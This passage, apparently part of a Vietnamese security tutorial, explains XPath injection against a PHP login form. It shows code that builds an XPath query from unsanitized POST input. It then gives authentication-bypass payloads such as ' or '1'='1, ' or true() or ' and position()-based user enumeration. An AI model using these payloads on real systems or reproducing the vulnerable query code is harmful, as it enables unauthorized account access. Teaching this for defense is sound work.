 ```xml
</users>
```

Truy vấn XPath xác thực:

```php
$query = "/users/user[username/text()='" . $_POST['username'] . "' and password/text()='" . $_POST['password'] . "']";
$results = $xml->xpath($query);
```

## 3.3. Payload bypass xác thực cơ bản

Kẻ tấn công có thể chèn đầu vào như: `' or '1'='1` để làm cho truy vấn luôn trả về true.

Truy vấn sau khi chèn payload:
```xpath
/users/user[username/text()='' or '1'='1' and password/text()='' or '1'='1']
```

Truy vấn này sẽ trả về tất cả các node user, cho phép kẻ tấn công đăng nhập dưới tài khoản đầu tiên (kgrenvile).

## 3.4. Bypass xác thực với người dùng cụ thể

Để đăng nhập dưới tài khoản admin, kẻ tấn công có thể sử dụng payload: `admin' or '1'='1`

Truy vấn XPath:
```xpath
/users/user[username/text()='admin' or '1'='1' and password/text()='abc']
```

## 3.5. Khai thác nâng cao khi mật khẩu được hash

Trong thực tế, mật khẩu thường được hash trước khi đưa vào truy vấn:

```php
$query = "/users/user[username/text()='" . $_POST['username'] . "' and password/text()='" . md5($_POST['password']) . "']";
```

## 3.6. Payload bypass với or true()

Kẻ tấn công có thể sử dụng payload: `' or true() or '`

Truy vấn XPath:
```xpath
/users/user[username/text()='' or true() or '' and password/text()='hashed_password']
```

## 3.7. Sử dụng vị trí để tìm người dùng cụ thể

Kẻ tấn công có thể lặp qua các người dùng bằng cách sử dụng `position()`.

Payload ví dụ: `' or position()=2 or '`
